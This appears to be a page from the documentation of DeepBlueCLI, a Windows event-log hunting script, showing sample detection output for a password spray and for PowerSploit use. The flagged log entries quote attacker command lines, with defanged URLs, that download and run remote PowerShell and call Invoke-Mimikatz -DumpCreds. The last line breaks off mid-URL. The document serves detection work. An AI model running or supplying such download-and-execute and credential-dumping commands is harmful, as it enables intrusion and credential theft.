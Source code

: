 ```
Account Name:           drook             7
Account Name:           edygert           7
Account Name:           jlake             7
Account Name:           jorchilles        7
Account Name:           kperryman         7
Account Name:           melliott          7
Account Name:           zmathis           7
Account Name:           wstrzelec         7
Account Name:           sarmstrong        7
Account Name:           sanson            7
Account Name:           lpesce            7
Account Name:           jleytevidal       7
Account Name:           econrad           7
Account Name:           tbennett          7
Account Name:           gsalinas          7
Account Name:           jkulikowski       7
Account Name:           psmith            7
Account Name:           cmoody            7
Account Name:           cfleener          7
Account Name:           ebooth            7
Account Name:           rbowes            7
Account Name:           bhostetler        7
Account Name:           lschifano         7
Account Name:           mtoussain         7
Account Name:           cdavis            7
Account Name:           eskoudis          7
Account Name:           thessman          7
Account Name:           celgee            7
Account Name:           dpendolino        7
Account Name:           jwright           7
Account Name:           Administrator     7
```

## Hunting PowerSploit (Security/System)
|Event|Command|
|-----|-------|
|PowerSploit (security)|`.\DeepBlue.ps1 .\evtx\powersploit-security.evtx`|
|PowerSploit (system)|`.\DeepBlue.ps1 .\evtx\powersploit-system.evtx`|

```
Date    : 9/20/2016 11:45:48 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Download via Net.WebClient DownloadString
          Command referencing Mimikatz

Command : powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hXXp://eic[.]me/17'); Invoke-Mimikatz -DumpCreds"
Decoded :

Date    : 9/20/2016 11:45:24 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Download via Net.WebClient DownloadString
          Command referencing Mimikatz
          PowerSploit Invoke-Mimikatz.ps1
          Use of PowerSploit

Command : powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hxxps://raw[.]githubusercontent[.]com/mattifestat
```